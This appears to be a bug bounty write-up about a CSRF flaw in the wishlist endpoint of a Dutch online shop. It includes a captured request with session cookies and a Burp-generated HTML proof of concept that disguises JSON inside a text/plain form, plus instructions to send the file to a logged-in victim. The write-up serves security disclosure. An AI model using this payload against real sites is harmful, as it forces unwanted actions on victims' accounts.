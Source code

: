```yaml
---
title: CSRF Injection on the biggest online-shop in Netherland [Bug Hunting]
updated: 2020-03-19 11:28
---
```


My first valid resolved Bug Writeup is here. I was invited to a private program on one of the biggest online-shopping, so I started doing some basic scanning.
I found that website acts weirdly when I perform CSRF. 
**On attacker:**
We create a simple account and capture the request on Burp when we add a product to our wishlist.

```
POST /service/wishlist/wishlist HTTP/1.1
Host: www.example-website.nl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: none/none
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.example-website.nl/
Content-Type: application/json
Blaze-CSRF: undefined
Origin: https://www.example-website.nl
Content-Length: 40
Connection: close
Cookie: fsrn=2; fsreset2=Wed_18_Mar_2020_22_54_40_GMT; identifier=4339d3b6-2610-422c-82b0-9b04f7a43b58; token=random_json_token_here; user-data=same_data_here=; csrf=bece68d7-333b-4928-9cb0-c19d93d1abb5; _ga=GA1.2.1009191194.1584572081; _ga_ZY7P8KFBPN=GS1.1.1587228541.7.0.1587228541.0; _dvp=0:k7xxaz5p:N0836XsY7brMdb65ime4s1tlX2bOgxwe; cookies=accept; _gcl_au=1.1.1550199358.1584572206; cto_bundle=2v43UF9VUThPM05JekQzeVk3cGRObnVwWWEwZEpOWnl2dlpwbUJvVU8wNnhxekExVVNLdUphdXdTdHpTV21ocUdoZGRJJTJGOXRtUkFXUTkzS2g5UHB5eVcwSEJvS0UlMkY3TSUyRiUyRlVrRUQwSUpMWU9IVllJN2xaUWNkSVYyOEElMkJhd1BBV1hwZFBHbiUyRm1HMEVTYTVFU0NOTkhOWVlBaTZHYWhtcUpsZlVoOThvS1dEV1dWRTVlTXhNdXpVcDlBZVVJMDhheGozMmk; _fbp=fb.1.1584572548344.1088712622; BVBRANDID=fb63c020-cb02-4001-9aaf-3a86f79ba5c7; fita.sid=GcfRuiCcumSNg8cS6CDcQwVsYKInN15v; _hjid=c1509864-a77b-4b7f-bfc9-076a83f11f4d; optimizelyEndUserId=oeu1584722868093r0.06827504906625659; tl_sid=2a77e76a226b4db2b573196a38c3545c; nefspe=2; __cfduid=d298a07db320e91fcbf533e7f069d14de1587228538; browser-session-id=f3cc2b56-82bb-4060-a2cd-eade6f149808; lux_uid=158722853903320907; _dvs=0:k95uw4sf:Us6HCuZajpYgx7oitmBVL4ra2PPeP8Ig; _uetsid=_uet068cc821-8ad2-7f2f-c994-4ab86b261199; _gid=GA1.2.183840546.1587228542; _dc_gtm_UA-46485659-10=1; _gat_UA-46485659-10=1

{"items":[{"productNumber":"16457804"}]}
```

Using this request, we generate a CSRF PoC. (again using Burp Suite)

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.example-website.nl/service/wishlist/wishlist" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;items&quot;&#58;&#91;&#123;&quot;productNumber&quot;&#58;&quot;16457804&quot;&#125;&#93;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
Send the generated HTML to the victim.

**On victim**
Open the file received from attacker (while he is already logged in the website). The product will be added on the wishlist.

##Impact

The attacker can perform different unwanted action on user, such as buying products, add/remove products from wishlist and so on.



